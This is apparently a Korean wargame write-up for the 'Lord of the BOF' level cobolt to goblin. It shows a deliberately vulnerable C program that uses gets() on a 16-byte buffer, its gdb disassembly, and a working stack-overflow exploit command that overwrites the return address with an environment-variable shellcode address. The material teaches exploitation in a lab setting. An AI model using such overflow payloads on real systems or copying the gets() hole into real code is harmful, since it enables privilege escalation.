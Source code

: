 Cobolt -> Goblin

**goblin.c**
```C
/*
        The Lord of the BOF : The Fellowship of the BOF
        - goblin
        - small buffer + stdin
*/

int main()
{
    char buffer[16];
    gets(buffer);
    printf("%s\n", buffer);
}
```

이번에는 인자값이 아니라 gets함수로 입력을 받는다는 점이 달라졌습니다.
<br>gdb를 이용하여 한번 보겠습니다.
```
0x80483f8 <main>:	push   %ebp
0x80483f9 <main+1>:	mov    %ebp,%esp
0x80483fb <main+3>:	sub    %esp,16
0x80483fe <main+6>:	lea    %eax,[%ebp-16]
0x8048401 <main+9>:	push   %eax
0x8048402 <main+10>:	call   0x804830c <gets>
0x8048407 <main+15>:	add    %esp,4
0x804840a <main+18>:	lea    %eax,[%ebp-16]
0x804840d <main+21>:	push   %eax
0x804840e <main+22>:	push   0x8048470
0x8048413 <main+27>:	call   0x804833c <printf>
0x8048418 <main+32>:	add    %esp,8
0x804841b <main+35>:	leave  
0x804841c <main+36>:	ret   
```
buffer의 크기가 16이라는 것을 알 수 있습니다.

>>buffer[16] + SFP[4] + RET[4]

이번 문제도 마찬가지로 환경변수의 주소를 구하는 과정은 생략하도록 하겠습니다.<br>
환경변수의 주소는 "0xbffffe7a" 입니다. 이제 공격을 해보도록 하겠습니다.
```
[cobolt@localhost cobolt]$ (python -c 'print "\x90"*20 + "\x7a\xfe\xff\xbf"';cat) | ./goblin
zþÿ¿
my-pass
euid = 503
hackers proof
```
공격하는 문법이 조금 다른 것을 볼 수 있습니다. |으로 goblin을 실행시키면서 동시에 "\x90"과 환경변수의 주소를 입력해주는 것 입니다.
